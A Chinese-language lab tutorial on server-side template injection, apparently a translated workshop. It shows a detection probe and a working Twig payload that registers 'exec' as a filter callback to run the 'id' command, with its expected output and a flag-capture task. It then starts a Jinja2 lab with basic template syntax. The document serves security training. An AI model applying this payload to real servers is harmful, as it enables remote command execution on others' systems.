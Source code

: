 为了完成本练习，请连接到相应的 Web 服务器：http://template-injection.gosec.co:8012/。

它将提供一个非常简单的表单，其中只有一个字段。

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5ZVia7Qye3bIgug5vSkFMamhibReibDzjFkGQlSSxTvzia8bMa6NARAib9EQkAB4icrE6Ym14aqxJHRCtQ/640?wx_fmt=png)

在这个表单中，您可以提交一个简单的表达式来确认模板是否用于显示值。下面的表达式将进行减法运算。

```
{{1338-1}}

```

上面减法运算的结果，应该显示为 1337

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}

```

执行 id 命令

id 命令的结果应该是：

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

您能访问服务器上的 flag.txt 文件吗？

![](https://mmbiz.qpic.cn/mmbiz_png/7QRTvkK2qC4vb3zGpT1APwe5KUjnk9AYwlDxicHg0xGWRUs0qg3CgDiapsR5IBEAMd54caYibnFNVtj1zNxzQCPHg/640?wx_fmt=png)

LAB 2: Jingja2(Python)

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb5ZVia7Qye3bIgug5vSkFMamjOpd9QSAMrVePZqKkXRN8pL6jnLCEPsaghfeSTnjIrPyA3SgveNS3Q/640?wx_fmt=png)

### **简介**

Jinja 是 Python 中一个流行的模板引擎，它与 Django 模板非常相似。不过，与 Django 模板相比，Jinsa 可以轻松地在运行时动态使用。Django 模板被设计为存储在静态文件中的动态视图。

### **模板语法基础知识**

下面是几个简单的表达式，用于演示 Jinja 的基本语法。

```
//String

{{ message }}

//Accessing an attribute

{{ foo.bar }}

//Accessing an attribute (alternative)

{{ foo['bar'] }}

```

